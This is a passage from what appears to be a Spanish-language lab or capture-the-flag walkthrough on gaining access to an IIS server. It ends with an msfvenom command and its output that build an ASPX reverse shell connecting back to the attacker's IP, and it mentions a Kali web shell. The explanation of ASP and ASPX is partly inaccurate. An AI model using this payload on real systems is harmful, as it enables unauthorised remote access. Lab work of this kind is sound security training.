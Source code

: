 <br>

De acuerdo con el siguiente link de la página **HackTricks**: 
* <a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services" target="_blank">HackTricks: IIS - Internet Information Services</a>

El **servicio IIS** puede ejecutar las siguientes extensiones:
* *asp*
* *aspx*
* *config*
* *php*

De momento vamos a descartar la de **PHP** y el de **config** porque no creo que nos sirvan para cargar el Payload, así que vamos a investigar la **extensión ASP y ASPX**:

| **Extensión ASP** |
|:-----------:|
| *Active Server Pages, ​también conocido como ASP clásico, es una tecnología de Microsoft del lado del servidor para páginas web generadas dinámicamente, que ha sido comercializada como un anexo a Internet Information Services (IIS).* |

<br>

| **Extensión ASPX** |
|:-----------:|
| *La extensión de archivo ASPX se utiliza para páginas web que son generadas automáticamente por el servidor y dirigen directamente a un servidor activo.* |

<br>

Entonces, la **extensión ASP** podría decirse que es la página web y la **extensión ASPX** es un archivo ejecutable, con esta extensión vamos a crear nuestra **Reverse Shell**.


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="Payload">Ganando Acceso a la Máquina Víctima con Reverse Shell y Archivo cmd.aspx de Kali</h2>

Para este caso, tenemos dos opciones, la primera es crear nuestra **Reverse Shell** con **Msfvenom** o la otra es ocupar un recurso con el que cuenta **Kali** que nos da una CMD que podemos usar, desde la página web. Vamos a ocupar ambos, pero empezamos creando nuestra propia **Reverse Shell**.

<br>

<h3 id="Msfvenom">Configurando el Payload de Reverse Shell con Msfvenom</h3>

Vamos a empezar configurando un Payload con **Msfvenom** para que nos conecte a la máquina víctima, una vez sea ejecutado:
```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=Tu_IP LPORT=443 -o IIS_Shell.aspx  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2737 bytes
Saved as: IIS_Shell.aspx
```
Así de simple es crearla.
